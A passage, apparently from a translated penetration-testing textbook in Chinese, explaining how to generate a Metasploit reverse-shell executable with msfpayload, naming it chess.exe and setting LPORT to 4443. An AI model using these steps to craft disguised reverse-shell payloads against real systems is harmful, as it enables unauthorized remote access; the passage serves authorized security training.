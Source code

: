 正如前面的截图所示，我们在第一次尝试中成功了，从这一点开始，我们可以继续进行之前介绍的后期利用技术。请记住要遵守我们工作范围中详细说明的要求。

# 二进制有效载荷

在 metasploit 工具中，我们有能力生成自己的二进制有效载荷，这就是我们将在本节中讨论的内容。要查看这个选项，启动 metasploit 工具，输入`msfpayload windows/shell_reverse_tcp O`。结尾的`O`将显示可以为我们的有效载荷设置的选项。由于我们正在设置一个反向 shell，你可能已经对此有一个很好的想法。这个命令的输出示例如下截图所示：

![二进制有效载荷](img/477-1_12_43.jpg)

正如前面的截图所示，我们有基于我们 Kali 机器的本地机器地址的默认设置。因此，除非我们想要定义一个特定的`LPORT`来穿越防火墙，否则我们实际上不需要进行任何更改。对于我们的目的，我们将保持设置不变。输入`msfpayload LPORT=4443 X > /tmp/chess.exe`。文件创建后，我们将查看文件的详细信息。在窗口中输入`file /tmp/chess.exe`。

这些命令的输出示例如下截图所示：

![二进制有效载荷](img/477-1_12_44.jpg)
